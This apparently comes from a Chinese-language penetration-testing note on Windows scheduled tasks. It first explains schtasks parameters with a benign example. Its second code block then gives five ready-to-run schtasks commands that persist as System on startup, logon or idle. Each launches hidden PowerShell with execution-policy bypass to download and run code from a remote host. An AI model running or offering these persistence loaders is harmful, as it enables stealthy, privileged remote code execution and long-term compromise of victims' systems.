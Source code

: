 ## 3. 计划任务

`schtasks`命令参数如下：

- /Create 创建新任务。
- /Delete 删除计划任务。
- /Query 显示所有计划任务。
- /Change 更改计划任务属性。
- /Run 按需运行计划任务。
- /End 中止当前正在运行的计划任务。
- /ShowSid 显示与计划的任务名称相应的安全标识符

```powershell
# schtasks 命令
# 每天晚上 03:30 定时执行
schtasks /create /tn "TimedTask1" /tr C:\Users\Administrator\Desktop\TimedTask\Run.bat /sc DAILY /st 03:30 
# statement A

# 查询创建的任务
schtasks /query /tn TimedTask1 /v

# 立即运行创建的任务
schtasks /run /tn TimedTask1

# 删除任务
schtasks /delete /tn TimedTask1
```

搭配远程下载如下：

```powershell
#(X64) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System
 
#(X64) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30
 
#(X86) - On User Login
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System
  
#(X86) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System
  
#(X86) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30

```
